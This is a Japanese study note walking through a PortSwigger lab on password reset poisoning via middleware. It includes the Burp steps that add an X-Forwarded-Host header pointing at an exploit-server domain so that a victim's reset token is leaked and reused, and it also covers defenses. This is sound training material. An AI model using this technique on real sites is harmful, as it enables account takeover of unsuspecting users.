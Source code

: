 
Date: 2025-09-26
Tags: 
Links:  [[WSA]], [[Authentication Vulnerabilities]]

***

まとめ
1. パスワード再設定用のURLがメールアドレスに届く。そのURLにはホスト情報がある。`http://<host>/forgot-password?<reset-token>=...
2. →ヘッダを偽造する。
3. `X-Forwarded-Host: exploit-server`とすれば、被害者がリンクを開いたときに攻撃者サーバーにアクセスされ、トークンが手に入る。
**※ホスト名にスキーム名は含まない**


サーバ側のミドルウェアが「メールに書くパスワードリセット用の絶対URL」を **リクエストヘッダー（Host または X-Forwarded-Host）を元に生成している**ため、攻撃者が X-Forwarded-Host を偽装して「リセットリンクのドメイン」を攻撃者管理下のドメインに書き換えさせられる。結果、受信者（被害者）がメールを開いたときにそのリンクにアクセス（またはプレビューでアクセス）してしまい、攻撃者がトークンをログに取得できる、という流れです。

---

# **仕組みを分解して理解する（重要）**

1. アプリはパスワード再設定要求を受けると、**トークンを生成して DB 等に保存**し、ユーザに「絶対URL（例: https://example.com/forgot-password?token=...）」をメールで送る。
    
2. その絶対URLを組み立てる際に、アプリが "Host" ヘッダーや X-Forwarded-Host を参照していると、**そこに書かれたドメインがそのままメール中のリンクに使われる**。
    
3. 攻撃者が X-Forwarded-Host に自分の exploit-server ドメインを入れて POST /forgot-password を送ると、生成されるリセットリンクは攻撃者ドメインを指す（例: https://attacker.exploit-server.net/forgot-password?token=...）。
    
4. メールを受け取った被害者（このラボでは carlos）がメールを開いたりリンクプレビューしたりすると、その攻撃者ドメインへアクセスが来て、攻撃者はリクエストログ（exploit server のアクセスログ）からトークンを盗める。
    

---

# **実際の手順（Burp での操作）※writeup の流れ**

  

（ラボの手順を簡潔に意訳したもの。詳しくはラボページ参照）

1. Burp で POST /forgot-password をキャプチャして Repeater に送る。
    
2. Repeater でヘッダーに X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net を追加する（YOUR-EXPLOIT-SERVER-ID は exploit server のドメイン）。
    
3. リクエストの username パラメータを carlos に変更して送信。
    
    - この送信でサーバは carlos 用の一意トークンを生成してメール送信するが、メール本文に書かれるリンクのドメインは X-Forwarded-Host を参照して攻撃者ドメインになる。
        
    
4. exploit server の **access log** を開くと、メール内のリンク（被害者が開いたことにより）に対する GET /forgot-password?token=... が残っている。そこからトークンをコピーする。
    
5. そのトークンを使い、（writeup の通り）正しいアプリのリセットページの temp-forgot-password-token 値を盗んだトークンで上書きしてロード ⇒ パスワードを再設定。
    
6. そのアカウントでログインすれば完了。
    

  

（重要）攻撃者は「メール中に載っているリンクを攻撃者のドメインに差し替えただけ」で、**トークン自体はサーバが生成した正当なもの**なので有効。攻撃者はそれを傍受すれば不正にアカウントを乗っ取れる。

---

# **なぜ「正規のリセットリンクを取ってきて token を差し替える」必要があるか**

  

ラボの手順では「exploit server に来たリンクからそのままリセットページを開く」ではなく、一旦正規メール中のリンク（本来のドメイン）を利用して temp-forgot-password-token の値のみ差し替える操作をしています。これは実務上よくある理由によるもの：

- 攻撃者が傍受したURLは攻撃者のドメイン（exploit server）なので、そのまま開くとアプリ側で期待されるホスト名やCSRF対策・クッキー条件等により動かなかったり、UI が無い場合がある。
    
- 正規のリセットフォーム（本物のドメイン）に盗んだ「有効なトークン」を入れると、アプリの仕様に沿って安全にパスワード変更ができる（ラボではこのやり方で確実に成功する設計）。
    
    要するに「トークンは有効 → 正しいフォームに差し替えて使えば確実にリセットできる」ためです。
    

---

# **追加で押さえておくと良い点（技術的観察）**

- X-Forwarded-Host が効くのは **サーバ側がそれを「信頼して」URL生成に使っている**から。普通は内部的に使うべき設定値（アプリ設定や環境変数で定義されたホスト）を使うべきで、ヘッダーに依存してはいけない。
    
- メールクライアントがリンクを「事前取得（プレビュー、自動チェック）」する挙動があるため、被害者がリンクをクリックしなくても攻撃者のサーバに GET が残ることがある（このラボはそこを利用している）。
    

---

# **防御策（どう直すべきか）**

  

実務向けの対策を列挙します（理解を深めるためにも重要）：

1. **信頼できる値だけを使う**
    
    - 絶対URLを組み立てるときに Host / X-Forwarded-Host を直接使わず、アプリ設定や正規の公開ドメインを使う（例: APP_BASE_URL を使う）。
        
    
2. **ホストヘッダを信用しない**
    
    - リクエストヘッダー由来のドメインで重要な動作を行わない。
        
    
3. **メールのリンクにトークン以外の追加検証を付ける**
    
    - 受け取ったリセットトークンが生成時のコンテキスト（発行IPやユーザセッション等）と合致するか確認する等。
        
    
4. **ワンタイムで短時間の有効期間**、多要素の導入。
    
5. **Incoming proxies を信頼する設定**
    
    - X-Forwarded-* を読む場合は「どのプロキシから来たリクエストなら信頼するか」を厳密に設定しておく（例: ALB / Cloudflare のみ信頼する）。
        
    

---

# **短いまとめ（復習）**

- X-Forwarded-Host を攻撃者が操作すると、メールに載る「絶対URL」を攻撃者のドメインに差し替えさせられる。
    
- 被害者がメールを開く（または自動プレビュー）すると、その攻撃者ドメインへアクセスが行き、トークンをログで盗める。
    
- トークンを盗んだら正規のリセットフォームに流用してアカウントのパスワードを変更できる。
    

***
# References

https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware